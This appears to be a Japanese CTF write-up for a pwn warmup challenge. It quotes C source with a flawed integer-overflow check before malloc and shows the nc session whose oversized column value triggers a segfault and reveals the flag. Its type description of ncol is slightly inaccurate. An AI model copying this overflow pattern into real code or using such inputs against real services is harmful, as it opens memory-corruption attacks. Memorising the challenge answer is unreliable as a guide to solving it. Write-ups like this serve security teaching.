 # This is warmup:pwn

Trust me. If this problem is too difficult for you, I don't mind you burying me in the ground!
nc 104.199.135.28 33334

attachment  
[firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz](firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz)

Difficulty Level : warmup  
Point : 193  
Solved : 48

# Solution
とりあえず、`nc 104.199.135.28 33334`を実行してみる。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 2
I made Ichimatsu design for you!
0 1
1 0
```
縦横の数字を入力すると、指定の大きさの市松模様を出力するプログラムとなっているらしい。
配布ファイルに含まれているchal.cを確認する。
```
int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);
  
  unsigned long long int nrow, ncol;

  printf("Enter number of rows: ");
  scanf("%llu", &nrow);

  printf("Enter number of cols: ");
  scanf("%llu", &ncol);

  if (nrow * ncol < nrow) { // this is integer overflow right?
    puts("Don't hack!");
    exit(1);
  }

  char *matrix = malloc(nrow*ncol);
  if (!matrix) {
    puts("Too large!");
    exit(1);
  }
```
非常に親切に、セグメンテーションフォルトを起こすとフラグが取れることと、整数オーバーフローが起こる場所が記載されている。  
愚直に、大きい値を入力してみるが、フラグは出てこなかった。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9999999999999999999999999999999999999999999999999999999999999999
Too large!
```
`ncol`はlong long intと定義されているため、long long intの最大値周辺を攻める方針で、指示通りにオーバーフローさせる。  
long long intの最大値は、9223372036854775807なので、9223372036854775808以上の数字を入力していく。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775808
Don't hack!

$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775809
Well done!
IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}
```
さらに大きな数値でも試してみたが、`9223372039999999999`まで大きくなるとプログラムが動かなくなり、さらに大きくすると、`Too large!`と出力されるようになった。

flagが得られた。

`IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}`
